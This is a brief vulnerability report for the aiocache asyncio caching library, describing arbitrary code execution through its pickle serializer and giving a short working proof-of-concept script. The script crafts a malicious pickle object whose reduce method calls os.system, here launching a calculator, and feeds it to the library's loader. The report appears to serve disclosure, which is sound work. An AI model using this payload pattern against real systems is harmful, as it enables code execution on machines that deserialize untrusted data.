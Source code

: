 # Description
Asyncio cache manager for redis, memcached and memory, This library aims for simplicity over specialization.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install aiocache')
from aiocache.serializers import serializers
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
serializers.PickleSerializer.loads(dumps,dumps)
```
* `pip3 install aiocache`
* `python3 exploit.py`
